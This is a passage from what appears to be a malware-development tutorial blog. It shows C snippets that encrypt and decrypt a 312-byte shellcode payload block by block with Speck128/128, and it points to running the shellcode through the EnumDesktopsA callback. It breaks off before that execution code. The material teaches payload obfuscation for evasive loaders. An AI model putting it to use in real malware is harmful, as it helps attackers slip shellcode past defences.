 Then run it:     

```bash
./hack
```

![malware](/assets/images/156/2025-05-29_13-26.png){:class="img-responsive"}     

As you can see everything is worked perfectly! =^..^=      

### practical example 2

Let's implement `Speck128/128` in C to encrypt and decrypt a payload. The payload is `312` bytes long. This is a multiple of `16`, so it can be encrypted in `128-bit` (`16-byte`) blocks using the `Speck` algorithm without padding.     

Everything is the same as in the previous example, the only difference is:     

add encryption of payload by blocks via Speck    

```cpp
for (int i = 0; i < payload_len; i += BLOCK_SIZE) {
  speck_encrypt((uint64_t*)&payload[i], (uint64_t*)&payload[i+8]);
}
```

output of encrypted payload:    

```cpp
printf("encrypted: \n");
for (int i = 0; i < payload_len; i++) {
  printf("%02x ", payload[i]);
  if ((i + 1) % 16 == 0) printf("\n");
}
printf("\n\n");
```

decryption for verification     

```cpp
for (int i = 0; i < payload_len; i += BLOCK_SIZE) {
  speck_decrypt((uint64_t*)&payload[i], (uint64_t*)&payload[i+8]);
}
```

run shellcode via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html):      

